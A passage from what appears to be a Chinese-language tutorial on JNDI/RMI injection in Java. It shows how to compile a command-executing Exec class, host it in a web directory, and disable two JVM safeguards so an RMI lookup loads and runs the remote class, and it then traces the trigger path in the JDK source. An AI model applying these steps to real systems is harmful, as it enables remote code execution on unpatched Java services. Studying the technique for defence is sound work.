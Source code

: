             System.out.println(new String(baos.toByteArray()));  
      
            p.waitFor();    }}

将其编译为Exec.class文件，然后拷贝到web目录下  

  * 

    
    
    javac Exec.java

  * 

    
    
    cp Exec.class /var/www/html/

假设client地址为10.0.0.1，构造如下漏洞代码  

  *   *   *   * 

    
    
    System.setProperty("java.rmi.server.useCodebaseOnly", "false");System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");Context context = new  InitialContext();context.lookup("rmi://127.0.0.1/exec");

即可成功执行whoami命令  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805141837.png)

其中前两行代码主要用于解除安全限制  

  

在RMI服务中引用远程对象将受本地Java环境限制即本地的java.rmi.server.useCodebaseOnly配置必须为false(允许加载远程对象)，如果该值为true则禁止引用远程对象。除此之外被引用的ObjectFactory对象还将受到com.sun.jndi.rmi.object.trustURLCodebase配置限制，如果该值为false(不信任远程引用对象)一样无法调用远程的引用对象。

  

JDK 5 U45,JDK 6 U45,JDK 7u21,JDK
8u121开始java.rmi.server.useCodebaseOnly默认配置已经改为了true。

  

JDK 6u132, JDK 7u122, JDK
8u113开始com.sun.jndi.rmi.object.trustURLCodebase默认值已改为了false。

  

 **深入源码探索**

  

前面提到了，实际原因是触发了object factory，下面我们来看一下具体的触发调用链

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805141838.png)

核心代码触发代码从decodeObject开始

  *   * 

    
    
    var1为传入的remote接口对象Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
